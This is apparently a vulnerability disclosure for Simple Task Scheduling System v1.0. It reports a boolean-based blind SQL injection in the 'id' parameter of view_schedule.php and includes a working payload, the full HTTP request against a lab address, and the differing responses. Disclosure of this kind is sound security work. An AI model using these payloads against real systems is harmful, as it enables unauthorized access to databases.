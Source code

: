 # Simple Task Scheduling System v1.0 by oretnom23 has SQL injection

BUG_Author: RUST

vendors: https://www.sourcecodester.com/php/15328/simple-task-scheduler-system-phpoop-free-source-code.html

The program is built using the xmapp-php5.6 version

Vulnerability File: /tss/admin/schedules/view_schedule.php

Vulnerability location: /tss/admin/schedules/view_schedule.php, id

db_name = tss_db;length=6

[+] Payload: /tss/admin/schedules/view_schedule.php?id=1%27%20and%20length(database())%20=6--+ // Leak place ---> id

```sql
GET /tss/admin/schedules/view_schedule.php?id=1%27%20and%20length(database())%20=6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=tc6akb10bh652defck09t9eug4
Connection: close
```

When length (database ()) = 6
![image](https://user-images.githubusercontent.com/54017627/179392503-52820151-ff6f-423b-b799-091b410d969e.png)

When length (database ()) = 5
![image](https://user-images.githubusercontent.com/54017627/179392510-9e13472e-1102-4ca4-9000-db381a427bde.png)
